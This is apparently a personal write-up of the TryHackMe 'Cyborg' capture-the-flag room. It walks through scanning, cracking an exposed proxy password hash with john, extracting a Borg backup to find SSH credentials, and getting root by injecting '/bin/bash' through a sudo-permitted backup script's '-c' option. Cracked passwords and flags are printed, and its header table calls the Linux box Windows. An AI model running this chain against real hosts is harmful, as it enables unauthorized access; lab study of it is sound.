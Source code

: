 ```yaml
---
title: "Cyborg"
---
```


:::info Description

These are my notes for the [Cyborg Room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## RECON

### Nmap

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

I found:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

results (didnt note the command):

```bash
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

I browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Let's crack it.

## Crack

```bash
└─$ john passwd --wordlist=/usr/share/wordlists/rockyou.txt                                                  130 ⨯
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:01 DONE (2022-01-15 23:24) 0.6711g/s 26158p/s 26158c/s 26158C/s wonderfull..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We have user/password = `music_archive/squidward`

## Enumerate web folders

I found `squid.conf`:

```bash
# http://10.10.19.193/etc/squid/squid.conf

auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### archive.tar

I found archive on `view-source:http://10.10.148.181/admin/index.html` = `http://10.10.148.181/admin/archive.tar`

downloaded & extracted - contains a BORG archive.

might come in handy later:

```sh
└─$ strings integrity.5
version
hints
@{"algorithm": "XXH64", "digests": {"final": "05178884e81563d7"}}
index
b{"algorithm": "XXH64", "digests": {"HashHeader": "146e9cb969e480a3", "final": "b53737af67235823"}}
```

config file

```sh
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
        L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
        2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
        8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
        daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
        oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
        eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
        T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
        vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
        SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
        UCH8bjZLfc1GFsundmVyc2lvbgE=
```

## Borg Backup System

the tar is a borg deduplication file/archive [borg](https://borgbackup.readthedocs.io/en/stable/index.html).

the [usage](https://borgbackup.readthedocs.io/en/stable/usage/general.html) is e.g. `borg list /path/to/archive`

for the archive.tar with `/home/field/dev` the actual "archive" is the folder `final_archive`:

use the passwd we cracked `squidward`:

```bash
┌──(kali㉿kali)-[~/…/download/home/field/dev]
└─$ borg list ./final_archive
Enter passphrase for key /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/CYBORG/download/home/field/dev/final_archive:
music_archive                        Wed, 2020-12-30 03:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

so will try and extract it, see any info in it.

## PRIVESC

### user.txt

mounted archive using `borg mount ./final_archive /tmp/borg`, mounts the FUSE filesystem archive at `/tmp/borg` and was the users whole home dir backup. had a look around and found `Document\note.txt` which had:

```bash
└─$ cat Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

use it to `ssh alex@10.10.148.181` and got the `user.txt` flag.

```bash
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### root.txt

check what alex can do with `sudo`:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking through the `/etc/mp3backups/backup.sh` and this part looks the most interesting because it's allowing a command to be injected in here, running as root :D

```bash
#!/bin/bash

...

while getopts c: flag
do
  case "$\{flag}" in
    c) command=$\{OPTARG};;
  esac
done

...

```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script:

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c /bin/bash
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:~#
```

because this spawns a shell halfway through the script, the output will be going to some other output, so we don't see the results until I exit out of the shell:

```bash
root@ubuntu:~# id; whoami; cat /root/root.txt
root@ubuntu:~# exit
uid=0(root) gid=0(root) groups=0(root) root flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
